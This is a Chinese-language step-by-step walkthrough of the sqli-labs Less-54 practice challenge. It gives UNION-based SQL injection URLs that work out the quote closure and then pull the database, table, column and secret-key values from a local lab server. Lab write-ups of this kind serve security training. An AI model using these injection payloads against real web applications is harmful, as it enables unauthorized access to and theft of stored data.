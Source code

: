 ```yaml
---
title: Less - 54
date: 2023-03-24T13:13:16Z
lastmod: 2023-03-24T13:27:54Z
---
```


# Less - 54

---

# 通关教程

---

## 1、判断闭合

---

​![image](assets/image-20230324131452-qhd88vc.png)​

我们需要在10次之内拿到KEY，不然KEY就会重置，就很接近现实里的SQL注入漏洞了，一般CTF的题目也是通过这种方式来考察的

```http
http://192.168.23.128/sqli-labs/Less-54/?id=1
```

​![image](assets/image-20230324131714-lj8ncdc.png)​

```http
http://192.168.23.128/sqli-labs/Less-54/?id=1'
```

​![image](assets/image-20230324131756-491b053.png)​

没有错误回显，所以只能去猜闭合方式了。这里因为只有十次机会，如果猜解的次数超过了十次，回到sqli-labs的主页面点击Setup/reset Database for labs重置一下sqli-labs就行了。

```http
http://192.168.23.128/sqli-labs/Less-54/?id=1'--+
```

​![image](assets/image-20230324132036-24jgrlj.png)​

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-54/?id=-1' union select 1,2,database()--+
```

​![image](assets/image-20230324132130-u2a3ecg.png)​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-54/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')--+
```

​​![image](assets/image-20230324132335-at57vy7.png)​​

---

## 4、查看8o6jkiwiul表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-54/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='8o6jkiwiul')--+
```

​![image](assets/image-20230324132436-w03kxpy.png)​

---

## 5、查询secret_XV74字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-54/?id=-1' union select 1,2,(select group_concat(secret_XV74) from challenges.8o6jkiwiul)--+
```

​![image](assets/image-20230324132708-hdi4wix.png)​

将我们得到KEY提交到窗口就可以了

​![image](assets/image-20230324132754-j3syuut.png)​

---
